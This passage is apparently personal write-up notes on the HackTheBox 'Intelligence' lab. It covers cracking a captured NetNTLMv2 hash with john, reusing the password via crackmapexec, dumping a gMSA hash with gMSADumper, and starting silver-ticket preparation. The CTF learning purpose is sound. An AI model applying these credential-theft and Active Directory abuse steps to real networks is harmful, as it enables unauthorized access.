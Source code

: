 ![[HackTheBox/Windows/attachments/Pasted image 20250519213256.png]]

```
john intelligence_netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt
```

![[HackTheBox/Windows/attachments/Pasted image 20250519213437.png]]
- it cracked!

```
john intelligence_netntlmv2 --show
```
The password is `Mr.Teddy`

Re-trying crackmapexec

```
crackmapexec smb 10.10.10.248 -u ted.graves -p Mr.Teddy
```

![[HackTheBox/Windows/attachments/Pasted image 20250519213712.png]]

Marking Ted as owned in Bloodhound and discover he could "ReadGMSAPassword"

![[HackTheBox/Windows/attachments/Pasted image 20250519213919.png]]

Use this [gMSADumper tool](https://github.com/micahvandeusen/gMSADumper) to extract the svc_int hash

```
git clone https://github.com/micahvandeusen/gMSADumper.git
```

```
python3.8 gMSADumper.py -u 'ted.graves' -p  Mr.Teddy -d intelligence.htb
```

![[HackTheBox/Windows/attachments/Pasted image 20250519214238.png]]

![[HackTheBox/Windows/attachments/Pasted image 20250519214321.png]]

Validate this hash using crackmapexec

```
crackmapexec smb 10.10.10.248 -u svc_int$ -H b98d4ceiuryrye8f
```

![[HackTheBox/Windows/attachments/Pasted image 20250519214500.png]]
- no psexec :(
- no winrm :(
- can generate silver ticket :)

### Generate a silver ticket 

Ensure ntpdate is synced

```
sudo ntpdate 10.10.10.248
```
